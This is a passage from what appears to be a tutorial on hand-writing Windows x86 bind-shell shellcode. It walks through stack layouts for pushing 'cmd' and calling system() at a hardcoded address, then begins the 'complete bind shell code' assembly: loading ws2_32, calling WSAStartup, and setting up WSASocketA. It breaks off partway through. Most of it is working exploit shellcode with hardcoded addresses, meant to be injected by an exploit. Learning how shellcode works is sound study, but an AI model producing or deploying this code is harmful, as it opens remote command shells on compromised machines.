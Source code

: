 `lea esp, [esp-0x4]` adjusts ESP, or else data will be overwritten when we push more values on the stack.

```
           Addr        Value      Ascii
           0022FE1C    41FFFFF4   "...A"
ESP/EAX -> 0022FE20    00646D63   "cmd\0"
           0022FE24    5C110002
           0022FE28    00000000
```

`push eax` pushes the address of the "cmd\0" string on the stack and overwrites the previous trash there.
```
       Addr        Value      Ascii
ESP -> 0022FE1C    0022FE20   
EAX -> 0022FE20    00646D63   "cmd\0"
       0022FE24    5C110002
       0022FE28    00000000
```

Below is an alternative version of system(), which saves some bytes using EBP instead of ESP.
We save space because we don't need to update the value of EBP, like we did to ESP in the previous example.
The reason I use ESP instead is that EBP might get overwritten by the exploit.

```assembly
mov DWORD [ebp-0x5], 0x646d6341
lea eax, [ebp-0x4]
push eax
mov eax, 0x77c293c7
call eax
```


### The complete bind shell code

```assembly
[BITS 32]

global _start

section .text

_start:

; LoadLibraryA(_In_ LPCTSTR lpFileName)
xor eax, eax
mov ax, 0x3233
push eax            ; Push 0x00003233 (ASCII 32\0)
push 0x5f327377     ; Push 0x5f327377 (ASCII ws2_)
mov ebx, esp        ; Store pointer to "ws2_32" in ebx
push ebx            ; Arg lpFileName = ebx -> "ws2_32"
mov eax, 0x7c801d7b
call eax

; WSAStartup(WORD wVersionRequired, LPWSADATA lpWSAData)
add esp, 0xFFFFFE70 ; Creating space on stack (400 bytes)
push esp            ; Arg lpWSAData = top of stack
push 0x101          ; Arg wVersionRequired = 1.1
mov eax, 0x71ab6a55
call eax

; WSASocketA(int af, int type, int protocol, 
;            LPWSAPROTOCOL_INFOA lpProtocolInfo, 
;            GROUP g, DWORD dwFlags)
xor eax, eax
```